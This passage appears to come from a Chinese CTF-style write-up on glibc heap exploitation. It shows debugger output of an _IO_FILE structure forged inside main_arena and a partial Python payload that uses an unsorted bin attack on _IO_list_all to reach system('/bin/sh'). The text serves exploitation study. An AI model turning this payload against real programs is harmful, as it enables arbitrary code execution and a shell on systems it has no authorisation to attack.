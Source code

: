 

那么还差0x10,就改old top chunk size 为0x60,即可在main_arena 向下偏移0x10进行储存,这就实现了在main_arena + 0x58伪造IO_FILE中实现连接我们伪造的IO_FILE,实现效果如下

```sh
pwndbg> p *((struct _IO_FILE_plus*)0x00007ffff7dd1b78)
$2 = {
  file = {
    _flags = 1433903120, 
    _IO_read_ptr = 0x5555557584f0 "/bin/sh", 
    _IO_read_end = 0x5555557584f0 "/bin/sh", 
    _IO_read_base = 0x7ffff7dd2510 "", 
    _IO_write_base = 0x7ffff7dd1b88 <main_arena+104> "\360\204uUUU", 
    _IO_write_ptr = 0x7ffff7dd1b88 <main_arena+104> "\360\204uUUU", 
    _IO_write_end = 0x7ffff7dd1b98 <main_arena+120> "\210\033\335\367\377\177", 
    _IO_buf_base = 0x7ffff7dd1b98 <main_arena+120> "\210\033\335\367\377\177", 
    _IO_buf_end = 0x7ffff7dd1ba8 <main_arena+136> "\230\033\335\367\377\177", 
    _IO_save_base = 0x7ffff7dd1ba8 <main_arena+136> "\230\033\335\367\377\177", 
    _IO_backup_base = 0x7ffff7dd1bb8 <main_arena+152> "\250\033\335\367\377\177", 
    _IO_save_end = 0x7ffff7dd1bb8 <main_arena+152> "\250\033\335\367\377\177", 
    _markers = 0x5555557584f0, 
    _chain = 0x5555557584f0,  //这里指向 old top chunk,也就是我们伪造的堆块
    _fileno = -136504360, 
    _flags2 = 32767, 
    _old_offset = 140737351850968, 
    _cur_column = 7144, 
    _vtable_offset = -35 '\335', 
    _shortbuf = <incomplete sequence \367>, 
    _lock = 0x7ffff7dd1be8 <main_arena+200>, 
    _offset = 140737351851000, 
    _codecvt = 0x7ffff7dd1bf8 <main_arena+216>, 
    _wide_data = 0x7ffff7dd1c08 <main_arena+232>, 
    _freeres_list = 0x7ffff7dd1c08 <main_arena+232>, 
    _freeres_buf = 0x7ffff7dd1c18 <main_arena+248>, 
    __pad5 = 140737351851032, 
    _mode = -136504280, 
    _unused2 = "\377\177\000\000(\034\335\367\377\177\000\000\070\034\335\367\377\177\000"
  }, 
  vtable = 0x7ffff7dd1c38 <main_arena+280>
}
pwndbg> x /40gx 0x5555557584f0
0x5555557584f0:	0x0068732f6e69622f	0x0000000000000061 # 我们的old top chunk
0x555555758500:	0x00007ffff7dd1bc8	0x00007ffff7dd1bc8
0x555555758510:	0x0000000000000000	0x0000000000000001
0x555555758520:	0x0000000000000000	0x0000000000000000
0x555555758530:	0x0000000000000000	0x0000000000000000
0x555555758540:	0x0000000000000000	0x0000000000000000
0x555555758550:	0x0000000000000000	0x0000000000000000
```

利用如下:

```python
	# Control program
	p = 'B' * 0x400
	p += p64(0)
	p += p64(0x21)
	p += 'B' * 0x10

	# fake IO_FILE
	f = '/bin/sh\x00' # overflow arg -> system('/bin/sh') 这是后续调用system会传入IO_FILE的地址
	f += p64(0x61)    # small bin size,使main_arena + 0x58 fake IO_FILE的_chian指向当前伪造的IO_FILE
    
	f += p64(0) + p64(_IO_list_all - 0x10) # unsoted bin attack 修改 _IO_list_all为main_arena + 0x58
```
